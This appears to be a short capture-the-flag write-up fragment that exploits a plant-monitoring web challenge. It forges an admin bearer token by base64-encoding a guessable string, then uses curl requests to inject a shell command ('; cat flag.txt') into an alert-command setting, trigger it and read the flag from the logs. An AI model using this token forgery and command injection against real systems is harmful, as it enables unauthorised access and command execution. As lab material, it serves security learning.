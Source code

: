 admin.1.1800000000 = YWRtaW4uMS4xODAwMDAwMDAw

### Inject command in "alert_command"
curl -X POST "http://challenge.ctf.games:30427/api/admin/settings" \
-H "Authorization: Bearer YWRtaW4uMS4xODAwMDAwMDAw" \
-H "Content-Type: application/json" \
-d '{"plant_id": 1, "alert_command": "/usr/sbin/sendmail -t; cat flag.txt", "watering_threshold": 50}'

### Trigger the command
curl -X POST "http://challenge.ctf.games:30427/api/admin/sendmail" \
-H "Authorization: Bearer YWRtaW4uMS4xODAwMDAwMDAw" \
-H "Content-Type: application/json" \
-d '{"plant_id": 1}'

### Retrieve the flag from logs
curl -X GET "http://challenge.ctf.games:30427/api/admin/logs" \
-H "Authorization: Bearer YWRtaW4uMS4xODAwMDAwMDAw" | grep -oE "flag{[a-zA-Z0-9_-]+}"

